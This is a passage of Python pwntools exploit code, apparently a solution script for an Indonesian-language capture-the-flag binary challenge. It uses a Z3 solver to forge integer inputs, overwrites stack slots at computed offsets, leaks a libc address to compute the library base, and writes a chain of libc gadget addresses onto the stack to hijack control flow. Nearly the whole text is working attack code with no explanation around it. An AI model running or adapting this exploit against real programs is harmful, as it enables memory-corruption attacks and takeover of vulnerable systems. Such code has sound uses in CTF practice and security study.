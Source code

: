```py
	p.sendlineafter("nomor bilangan:", str(2))

	s = Solver()
	x = BitVec('x', 64)
	if(aaa):
		x = BitVec('x', 32)
		s.add(x < 0x7fffffff)
	s.add((((4294967233 - x) & 0xffffffff) ^ (((4294967233 - x) & 0xffffffff) >> 0x1f)) - (((4294967233 - x) & 0xffffffff) >> 0x1f) == amount - 0x3f)
	s.check()
	hehe = s.model()[x]
	print(hehe)
	p.sendlineafter("baru:", str(hehe))

adder(0x6b, stack_leak + 0x128)
adder((stack_leak + 0x1d0) & 0xffffffff, stack_leak + 0x130, aaa=True)
adder((stack_leak + 0x1d0) >> 32, stack_leak + 0x134, aaa=True)
adder(0x634, stack_leak + 0x138)
adder(0x7ffffc38, stack_leak + 0x158)
adder(0x7ffffc38, stack_leak + 0x158)
# adder(0x330394ad, stack_leak + 0x158)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff, stack_leak + 0x15c)
adder(0x3fffffff+3, stack_leak + 0x15c)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0x7fffffcf, stack_leak + 0x160)
adder(0xc4, stack_leak + 0x160)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff, stack_leak + 0x164)
adder(0x3fffffff+3, stack_leak + 0x164)
adder(0x6f0, stack_leak + 0x170)

# pause()

p.sendlineafter("(Y/N)", 'N')
libc_leak = int(codecs.encode(p.recvuntil("\x7f")[-6:][::-1], 'hex'), 16)
libc_base = libc_leak - 0x228190

print(hex(libc_base))

adder(0x4a7, stack_leak + 0x178, not_help=False)

adder(0x62, stack_leak + 0x168)

# adder((libc_base + 0x0000000000026b6e) & 0xffffffff, stack_leak + 180)
# while(p.recvuntil("menang!", timeout=1) == b''):
# adder((libc_base + 0x0000000000026b6e) >> 32, stack_leak + 0x184)
adder((libc_base + 0x0000000000027b72) & 0xffffffff, stack_leak + 0x1a0,aaa=True)
adder((libc_base + 0x0000000000027b72) >> 32, stack_leak + 0x1a4,aaa=True)
adder((libc_base + 0x1b85aa) & 0xffffffff, stack_leak + 0x1a8,aaa=True)
adder((libc_base + 0x1b85aa) >> 32, stack_leak + 0x1ac,aaa=True)
adder((libc_base + 0x000000000004a1f3) & 0xffffffff, stack_leak + 0x1b0,aaa=True)
adder((libc_base + 0x000000000004a1f3) >> 32, stack_leak + 0x1b4,aaa=True)
adder((libc_base + 0x00000000000286e7) & 0xffffffff, stack_leak + 0x1d8,aaa=True)
adder((libc_base + 0x00000000000286e7) >> 32, stack_leak + 0x1dc,aaa=True)
adder((libc_base + 0x0000000000027b72+1) & 0xffffffff, stack_leak + 0x1f8,aaa=True)
adder((libc_base + 0x0000000000027b72+1) >> 32, stack_leak + 0x1fc,aaa=True)
adder((libc_base + 0x56410) & 0xffffffff, stack_leak + 0x200,aaa=True)
adder((libc_base + 0x56410) >> 32, stack_leak + 0x204,aaa=True)


```